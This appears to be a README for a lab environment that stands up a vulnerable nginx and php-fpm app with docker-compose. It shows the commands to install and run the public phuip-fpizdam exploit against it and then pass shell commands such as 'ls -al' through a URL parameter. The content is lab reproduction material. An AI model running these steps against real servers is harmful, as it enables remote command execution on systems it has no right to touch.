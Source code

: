 # How-to ?

Launch vulnerable apps :

```sh
docker-compose up -d
```

Get the exploit and launch it against the vulnerable nginx + php-fpm

```sh
go get -v github.com/neex/phuip-fpizdam
go install github.com/neex/phuip-fpizdam
phuip-fpizdam http://localhost:8080/index.php
```

Test with a command passing a command as the `a` parameter to the hello-world page:
(for an unknown reason you might have to launch it twice)

```sh
curl "http://localhost:8080/index.php?a=ls -al"
```

TODO: Add kubernetes deployment
